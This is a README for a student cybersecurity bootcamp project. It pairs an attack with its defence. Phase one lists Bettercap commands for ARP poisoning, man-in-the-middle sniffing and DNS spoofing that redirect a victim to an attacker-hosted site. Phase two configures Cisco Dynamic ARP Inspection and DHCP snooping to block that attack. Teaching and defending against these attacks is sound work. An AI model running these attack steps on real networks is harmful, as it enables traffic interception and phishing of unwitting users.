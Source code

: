 Operation NetNabber
Fullstack Academy - Cybersecurity - Cohort 2208-fcb-et-cyb-pt
Team Members: Drago Bonacich and Troy Schmitz

# THIS DEMONSTRATION IS INTENDED FOR EDUCATIONAL PURPOSES ONLY. WE DO NOT CONDONE THE USE OF HACKING TOOLS FOR ILLEGAL PURPOSES.

Operation NetNabber was created as a two-phase demonstration, an attack and a defense strategy. Phase one utilizes a powerful network sniffing and spoofing tool known as Bettercap, which is included in the latest versions of Kali Linux. This tool allowed us to conduct an ARP poisoning attack between a Windows machine and its default gateway, letting us act as a Man in the Middle and giving us the ability to analyze any traffic between the two. Additionally, we were able to use a feature within the same tool to spoof the DNS cache when our target connected through us, and automatically navigated our victim’s browser to a malicious site running on our attacking machine. Phase two demonstrated the configuration of a defensive technology for these ARP poisoning attacks known as Dynamic ARP Inspection. This phase of our project was conducted on a network simulation tool from Cisco known as Packet Tracer. It allowed us to build a simulated network, demonstrate how to configure the correct settings to enable Dynamic ARP Inspection, and show the audience that an ARP spoofing attempt was not successful with this technology enabled.

Link to Video Demonstration: https://youtu.be/8abLuPq8g7c



Phase 1: Attack

# Change IP Forwarding in Kali Linux so that auto packet drop is disabled:
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Change Windows registry to Enable IP Forwarding:
In registry editor browse to  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
Modify the value of the parameter IPEnableRouter from 0 to 1 and close the registry editor window
Restart your system and execute the command "netsh interface ipv4 show interface <if id>" to verify whether IP forwarding is enabled.

# Bettercap for Kali Linux (May not be natively installed and must be run with sudo privelages):
sudo bettercap

# Probe the network to see a list of devices connected:
net.probe on

# Lists all devices on the network with their MAC address and IP address
net.show

# Tells the program to target not only the IP address, but also the gateway that it's connected to so that you can see traffic going both ways:
set arp.spoof.fullduplex true

# Set your desired target IP address for ARP spoofing:
set arp.spoof.targets <ip address>

# Setting up DNS spoof so that when the target connects to "wikidot.com" it redirects the traffic to the attacking Kali Linux apache server:
set dns.spoof.domains wikidot.com

# Launch ARP poisoning attack:
arp.spoof on

# Turns the DNS spoof on:
dns.spoof on

# Turn the network sniffer on to see the traffic from the victim and the gateway:
net.sniff on



Phase 2: Defense

*** The following instructions are for configuration of Dynamic ARP Inspection on Cisco managed switches ***

# Open / Connect to the CLI of the Cisco managed switch.

# Enter user execution mode:
en

# Enter global configuration mode:
config t

# Enable DHCP Snooping globally:
ip dhcp snooping

(DHCP snooping will disallow all DHCP "offer" and "acknowledge" packets through the switch, except on the ports we set as Trusted. This will prevent any other device from acting as the DHCP server)

# Enter configuration mode for the interface connected to the DHCP server:
interface <dhcp_connected_interface>

# Trust the interface connected to the DHCP server:
ip dhcp snooping trust

# Exit the interface configuration and enter global configuration:
Ctrl + Z
config t

# Enable Dynamic ARP Inspection on the desired VLAN:
ip arp inspection vlan <#_vlan>
